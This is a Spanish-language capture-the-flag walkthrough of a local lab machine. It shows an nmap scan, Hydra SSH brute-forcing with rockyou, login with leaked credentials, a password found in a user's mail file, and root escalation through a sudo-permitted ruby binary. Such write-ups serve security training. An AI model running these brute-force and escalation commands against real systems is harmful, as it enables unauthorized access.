










Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Al ver que tiene el puerto 80, vemos que corresponde a una web, por lo tanto vamos a ver que esconde.


Vemos que la web no hay nada, vamos a ver si hay algo en el código fuente.


Vemos que nos da dos usuarios, por lo tanto, vamos a realizar dos ataques de fuerza bruta sobre el servicio ssh, uno con cada usuario.

```
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


```
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Vemos que no está encontrando nada con el usuario juan, así que vamos a entrar con el usuario camilo.
```
ssh camilo@172.17.0.2
password: password1
```


Vamos a poner un comando para poder ver el prompt.
```
script /dev/null -c bash
```


Tras estando enumerando todas las carpetas del usuario, vemos que en la ruta `/var/mail/camilo` hay un archivo interesante.
```
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Básicamente nos da el password de Juan, así que vamos a cambiar de usuario.
```
su juan
password: 2k84dicb
```


Una vez hemos cambiado de usuario, vamos a escalar a root aprobechandonos de binarios con permisios de este.
```
sudo -l
```


Vemos que nos podemos aprobechar del binario de ruby.
```
sudo /usr/bin/ruby -e 'exec "/bin/sh"'
```
